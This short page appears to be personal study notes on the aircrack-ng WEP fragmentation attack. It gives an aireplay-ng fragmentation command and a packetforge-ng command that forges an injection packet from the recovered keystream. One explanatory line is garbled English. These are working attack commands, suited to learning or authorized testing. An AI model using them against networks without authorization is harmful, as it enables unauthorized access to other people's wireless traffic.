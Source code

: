 # Fragmentation Attack

**Which attack number generator that used to generate random number to encryption**

```bash
aireplay-ng -5 -b BSSID_AP -h wlan_Bssid wlan0

# -5 -> refer to fragmentation attack
```

> need one packet to make this attack-b

![image.png](../../../.gitbook/assets/image.png)

***

### Packet injection (Forging)

```bash
packetforge-ng -0 -a D8:29:18:0A:08:91 -h 7c:3d:09:00:07:47 -k 255.255.255.255 -l 255.255.255.255 fileFromFregmentAttack -w any_name
```

<figure><img src="../../../.gitbook/assets/image 1.png" alt=""><figcaption></figcaption></figure>
